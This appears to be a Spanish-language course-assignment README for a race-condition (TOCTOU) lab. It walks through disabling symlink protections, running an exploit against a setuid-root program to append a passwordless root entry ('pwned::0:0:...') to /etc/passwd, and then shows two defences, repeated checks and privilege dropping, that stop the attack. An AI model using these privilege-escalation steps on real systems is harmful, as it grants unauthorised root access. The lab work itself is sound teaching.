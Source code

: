 # RaceConditionTEC

Tarea de condiciones de carrera

# Requisitos

- Ubuntu (24.10) en ARM
- vMWare Fusion o similar

# Pasos iniciales

1. Pasar archivos voip a la maquina virtual

```
# Servidor de archivos en macOS de atacante
python3 -m http.server 80

# Traer los archivos desde la maquina virtual
curl http://IP/vulp.c -o vulp.c
curl http://IP/vulp_repetition.c -o vulp_repetition.c
curl http://IP/vulp_seteuid.c -o vulp_seteuid.c
curl http://IP/looper.sh -o looper.sh
```

2. Eliminar protecciones de seguridad de symlinks para efectos de la tarea

```
# Esto parece restablecerse siempre por lo que es mejor ejecutarlo cada vez que se inicia la VM
sudo sysctl -w fs.protected_symlinks=0
sudo sysctl fs.protected_regular=0
```

3. Compilar el programa `vulp.c`, `firegoblin.c` y asignar permisos de setuid de root

```
# Mismo proceso para todos los vulp*.c
gcc vulp.c -o vulp -lm
sudo chown root vulp
sudo chmod 4755 vulp

gcc firegoblin.c -o firegoblin
```

# Trabajo 1

Agregar entrada a `/etc/shadow` y `/etc/password` para un nuevo usuario root mediante un ataque al programa vulp.

1. Agregar nuevo usuario como prueba de como se agrega en `/etc/shadow` y `/etc/password`

```
# useradd pwned -m -G sudo
# passwd pwned

# cat /etc/shadow
pwned:$y$j9T$yb7F48eurkR2ZugVrkr4U/$TkSO.sGjtjyki/IlF018wo6kw7zd4nUUrhE9emRNb7C:20237:0:99999:7:::

# cat /etc/passwd
pwned:x:1001:1001::/home/pwned:/bin/sh
```

Es necesario para el ataque que este se asemeje a root y tenga los valores de 0 en `/etc/passwd`

Por lo que debería verse asi:

```
# cat /etc/passwd
pwned:$y$j9T$yb7F48eurkR2ZugVrkr4U/$TkSO.sGjtjyki/IlF018wo6kw7zd4nUUrhE9emRNb7C:0:0:pwned:/root:/bin/bash
```

No es necesario editar `/etc/shadow`, ya que es posible realizar una entrada en `/etc/passwd`
por medio de utilizar un hash como contraseña, una manera de hacerlo es creando un usuario
y copiándolo el valor por medio de `/etc/shadow`.
Porque se tiene la contraseña en lugar de "x" es posible
no tener que modificar ambos.

2. Ejecutar el ataque

Es necesario ejecutar el ataque por medio de un loop, ya que al ser un ataque de condición de carrera,
tiene que correrse en paralelo multiples veces hasta encontrar el exito.

```
$ ./firegoblin

// En otra terminal
$ chmod +x looper.sh
$ ./looper.sh 
```

A cierto momento se debería recibir el mensaje de exito en la terminal de looper
y se debería poder acceder al usuario creado y verificar que es root.

```
$ ./looper.sh 
PWNED :). El archivo /etc/passwd tiene que haber sido modificado.
$ su pwned
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /etc/passwd
pwned::0:0:pwned:/root:/bin/bash
```

## Mejora de la tasa de exito

Se redujo el valor de delay a 0 para comprobar si existe problemas para explotar la vulnerabilidad.
Se determinó que todavía se puede ejecutar la vulnerabilidad sin problema alguno y sin una perdida
en la tasa de éxito, esto, dado al uso de la función `renameat2`, que previene condiciones de carrera en
el script atacante firegoblin.c.

# Trabajo 2

Se realiza una modificación del programa `vulp.c` y se crea `vulp_repetition.c` que valida y abre el mismo archivo
varias veces con el fin de determinar si todos son el mismo archivo o no y ejecutar la concatenation de los caracteres
enviados.

Esto tiene el fin de hacer más difícil que se haga el ataque al tener que sobrepasar varias de estas pruebas. Para este
efecto se realizaron cuatro cadenas de verificación.

```
$ ./firegoblin

# En otra terminal (se modifica looper.sh para que use vulp_repetition)
$ ./looper.sh
b./looper.sh: line 14: 34543 Done                    echo 'pwned::0:0:pwned:/root:/bin/bash'
     34544 Segmentation fault      (core dumped) | ./vulp_repetition
No permission fp3 
No permission fp4 
./looper.sh: line 14: 34552 Done                    echo 'pwned::0:0:pwned:/root:/bin/bash'
     34553 Segmentation fault      (core dumped) | ./vulp_repetition
No permission fp2 
Existe algun file descriptor invalido 
Los file descriptors no apuntan al mismo archivo 
No permission fp 
No permission fp3 
No permission fp4 

```

En suma, se dejó el programa `looper.sh` corriendo durante un tiempo de 5 minutos y no se obtuvieron los resultados
anteriormente vistos, no fue posible realizar el ataque y el script menciona que no existen
los permisos para abrir el archivo tanto a nivel de la función `access` como en `fopen`.

Al bajar el nivel a solo dos verificaciones en lugar de 4,
si se pudo lograr modificar el archivo, pero con una tasa de éxito un poco menor,
se tomó menos de 10 segundos.

# Trabajo 3

Principio de privilegio mínimo.

En esta parte se crea un nuevo script llamado `vulp_seteuid.c` que se encarga de bajar los privilegios del usuario
ejecutante del proceso al usuario que lo ejecuto, todo esto antes de las llamadas `access` y `fopen`.

Esto hace que aunque se den permisos de SETUID root al programa, este a nivel de código de manera explícita
los configura para bajar el nivel y que al momento de leer /etc/passwd en modo "a+" no se pueda, ya que el usuario
original no tiene permisos de root y no puede acceder al archivo de esta manera.

```
./firegoblin

## En otra terminal (se modifica looper.sh para que use vulp_seteuid)
$ ./looper.sh
     35397 Segmentation fault      (core dumped) | ./vulp_seteuid
No permission 
./looper.sh: line 14: 35411 Done                    echo 'pwned::0:0:pwned:/root:/bin/bash'
     35412 Segmentation fault      (core dumped) | ./vulp_seteuid
./looper.sh: line 14: 35423 Done                    echo 'pwned::0:0:pwned:/root:/bin/bash'
     35424 Segmentation fault      (core dumped) | ./vulp_seteuid
./looper.sh: line 14: 35432 Done                    echo 'pwned::0:0:pwned:/root:/bin/bash'
     35433 Segmentation fault      (core dumped) | ./vulp_seteuid
No permission 
No permission 
No permission 
./looper.sh: line 14: 35453 Done                    echo 'pwned::0:0:pwned:/root:/bin/bash'
     35454 Segmentation fault      (core dumped) | ./vulp_seteuid
No permission 
```

Como se observa anteriormente, ya no se puede realizar el ataque por que por mas que se haya
utilizado setuid como root, el programa baja los privilegios antes de realizar los accesos a los archivos.

Por ende no es posible ejecutar el ataque utilizando el mismo ./firegoblin.c.